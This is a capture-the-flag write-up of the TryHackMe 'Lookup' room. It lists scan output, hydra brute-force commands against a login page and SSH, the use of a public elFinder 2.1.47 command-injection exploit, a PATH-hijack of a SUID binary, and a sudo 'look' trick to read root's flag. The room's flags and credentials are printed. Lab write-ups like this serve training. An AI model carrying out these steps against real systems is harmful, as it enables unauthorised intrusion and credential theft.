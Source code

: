 
[[TryHackMe]] Room

**Date**: 17/01/25
**Target IP**: 10.10.88.15

---

## **Initial Scanning**

**Nmap Results:**
- 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

---
## **Exploration and Enumeration**

Login Page discovered at **Port 80**. Wrong password alert allows user enumeration leading to discovery that ==`admin`== user exists.

**DirSearch Results**:

```bash
Target: http://lookup.thm/

[11:47:15] Starting: 
[11:47:23] 403 -  275B  - /.ht_wsr.txt
[11:47:23] 403 -  275B  - /.htaccess.bak1
[11:47:23] 403 -  275B  - /.htaccess.sample
[11:47:23] 403 -  275B  - /.htaccess.orig
[11:47:23] 403 -  275B  - /.htaccess.save
[11:47:23] 403 -  275B  - /.htaccess_sc
[11:47:23] 403 -  275B  - /.htaccess_extra
[11:47:23] 403 -  275B  - /.htaccess_orig
[11:47:23] 403 -  275B  - /.htaccessBAK
[11:47:23] 403 -  275B  - /.htaccessOLD
[11:47:23] 403 -  275B  - /.htm
[11:47:23] 403 -  275B  - /.htaccessOLD2
[11:47:23] 403 -  275B  - /.html
[11:47:23] 403 -  275B  - /.htpasswd_test
[11:47:23] 403 -  275B  - /.httr-oauth
[11:47:23] 403 -  275B  - /.htpasswds
[11:47:24] 403 -  275B  - /.php
[11:47:47] 200 -    1B  - /login.php
[11:47:58] 403 -  275B  - /server-status/
[11:47:58] 403 -  275B  - /server-status
```

Ran hydra to brute-force the login page using the username admin : 

```bash
❯ hydra -l admin -P /usr/share/wordlists/seclists/Passwords/probable-v2-top12000.txt lookup.thm -s 5000 http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password." -I -vV -c 3
```

Brute-forcing appears successful : 

```
[80][http-post-form] host: lookup.thm   login: admin   password: password123
```

However, this is not the correct password for the admin user. Rather when using this combination despite using an existing username, we obtain the message : `Wrong username or password. Please try again. Redirecting in 3 seconds.` 

This may be indicative that the password exists in the database but is for another user. We thus iterate through a username list with the password obtained: 

```bash
❯ hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p password123 lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Please try again." -I -vV -t 30
```

We obtain the following:

```
[80][http-post-form] host: lookup.thm   login: jose   password: password123
```

---
## **Exploitation**

On logging in successfully, we obtain an elFinder file management page. The files seem to be full of random text.

`credentials.txt` possesses the credentials `think : nopassword`.

Inspecting the version of elFinder we discover it is **2.1.47**. There exists a known exploit which can be used to gain a shell through command injection. https://www.exploit-db.com/exploits/46481

We use this and gain a shell as **www-data** :

```bash
❯ python2.7 exploit.py http://files.lookup.thm/elFinder
```

We can [[Shell Upgrade]] if necessary.



---
## **Post-Exploitation**

Running linpeas gives the following :

```bash
-rwsr-sr-x 1 root root 17K Jan 11  2024 /usr/sbin/pwm (Unknown SUID binary!)
```

Running this binary outputs the following :

```bash
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

Running strings on this file allows us to deduce that this is some sort of password manager script that runs the `id` command to check who the current use is.  This can be vulnerable as it does not seem to be running `/bin/id`, meaning we can create our own `id` script and fool it into running it.

This is done as follows : 

```bash
www-data@lookup:/tmp$ export PATH="/tmp:$PATH"

www-data@lookup:/tmp$ echo '#!/bin/bash' > /tmp/id

www-data@lookup:/tmp$ echo "echo 'uid=1000(think) gid=1000(think) groups=1000(think)'" >> /tmp/id

www-data@lookup:/tmp$ chmod +x id

www-data@lookup:/tmp$ /usr/sbin/pwm
```

We obtain a list of passwords used by the think user.

We can use these to brute-force SSH into said user :

```bash
❯ hydra -l think -P ./jose_passwords lookup.thm ssh -t 4

[22][ssh] host: lookup.thm   login: think   password: josemario.AKA(think)

```

We thus obtain the **user flag** ( /home/think/user.txt ) :
**38375fb4dd8baa2b2039ac03d92b820e**

---
## **Escalation**

```
think@lookup:~$ sudo -l

User think may run the following commands on lookup:
(ALL) /usr/bin/look
```

think can run `/usr/bin/look` as sudo. We can thus refer to [GTFOBins](https://gtfobins.github.io/) and gain privileged access to the `/root/root.txt` file to read it as follows : 

```bash
think@lookup:~$ sudo look -bdf "" /root/root.txt
```

We thus obtain the Root Flag :
**5a285a9f257e45c68bb6c9f9f57d18e8**

---
## **Summary**

- Login Page credentials : **jose:password123**
- elFinder 2.1.47 command injection exploit (https://www.exploit-db.com/exploits/46481)
- Create malicious `id` binary and exploit `/usr/sbin/pwm`
- think user SSH password : **josemario.AKA(think)**
- User Flag ( /home/think/user.txt ) : **38375fb4dd8baa2b2039ac03d92b820e**
- Exploit /usr/bin/look sudo access (  [GTFOBins](https://gtfobins.github.io/))
- Root Flag ( /root/root.txt ) : **5a285a9f257e45c68bb6c9f9f57d18e8**